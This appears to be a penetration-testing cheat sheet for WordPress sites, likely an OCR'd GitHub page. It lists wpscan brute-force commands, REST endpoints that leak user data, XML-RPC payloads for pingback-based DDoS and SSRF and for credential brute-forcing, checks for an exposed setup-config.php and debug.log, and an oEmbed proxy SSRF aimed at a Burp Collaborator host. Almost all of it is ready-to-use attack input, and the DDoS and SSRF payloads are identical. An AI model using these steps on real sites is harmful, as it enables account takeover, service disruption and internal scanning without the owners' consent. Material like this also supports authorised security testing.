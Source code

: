 #### TOOLS 
- wpscan
  ````
  wpscan --url https://blog.com --enumerate u   ==> user enumeration
  wpscan  -U users.txt -P password.txt  --url https://blog.com
  ````

#### WP-USER ENUMERATION
This issue will only acceptable when target website is hiding their current users or they are not publically available. So attacker can use those user data for bruteforcing and other staff
````
- wp-json/wp/v2/users/
- wp-json/wp/v2/pages  ===> could leak ip addresses
- ?rest_route=/wp/v2/users
You will see json data with user info in response
````

#### xmlrpc.php
send the post request with the following data
- LIST ALL THE METHODS
````
                <?xml version="1.0" encoding="utf-8"?>
                <methodCall> 
                <methodName>system.listMethods</methodName> 
                <params></params> 
                </methodCall>

````
- Check the pingback.ping method is there or not. Perform DDOS
````
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
````
- Perform SSRF (Internal PORT scan only)
````
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
````
- Bruteforce login credentials
  ```
  <methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
  <param><value>admin</value></param>
  <param><value>pass</value></param>
  </params>
  </methodCall>
  ```
#### CREATE DATABASE
- /wp-admin/setup-config.php?step=1  ===> may give access to create new database if they forgot to configure the database 
 #### Log files exposed
- wp-content/debug.log

#### ssrf through endpoint
- Try to access https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net and the Worpress site may make a request to you.
